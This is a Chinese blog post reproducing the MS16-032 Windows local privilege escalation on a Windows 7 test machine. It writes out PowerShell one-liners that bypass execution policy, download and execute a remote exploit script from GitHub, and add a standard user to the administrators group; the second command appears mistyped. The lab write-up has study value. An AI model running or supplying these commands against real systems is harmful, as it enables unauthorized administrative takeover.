 ```yaml
---
title: Windows7系统MS16-032本地提权
date: 2019-08-18 14:19:08
categories: 随笔
tags: 漏洞复现
---
```

顺便再拿win7开刀，玩玩MS16-032 windows本地提权。

## 一、exploit-db详情：
https://www.exploit-db.com/exploits/39719/
## 二、此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：
### 1.目标系统需要有2个以上的CPU核心
### 2.PowerShell v2.0及更高版本必须正在运行
## 三、此漏洞会影响以下Microsoft产品：
Windows Vista
Windows 7
Windows 8.1
Windows 10
Windows 2008 Server
Windows 2012 Server
## 四、提权powershell脚本：
39719.ps1
## 五、测试详情：
### 1、测试机
Windows 7：test1（非管理员组）
![1](Windows7系统MS16-032本地提权/1.png)
![8](Windows7系统MS16-032本地提权/8.png)
### 2.先用powershell命令试试
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators test1 /add'"
![2](Windows7系统MS16-032本地提权/2.png)
![3](Windows7系统MS16-032本地提权/3.png)
成功提权至管理员组，加个用户看看
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net test2 123456 /add'"
![7](Windows7系统MS16-032本地提权/7.png)
![9](Windows7系统MS16-032本地提权/9.png)
### 3.试试网上公开的powershell脚本
39719.ps1
![4](Windows7系统MS16-032本地提权/4.png)
不行，看看提示
![5](Windows7系统MS16-032本地提权/5.png)
![6](Windows7系统MS16-032本地提权/6.png)
无果，有师傅知道怎么解决的话希望能邮箱或者微博留言给小弟
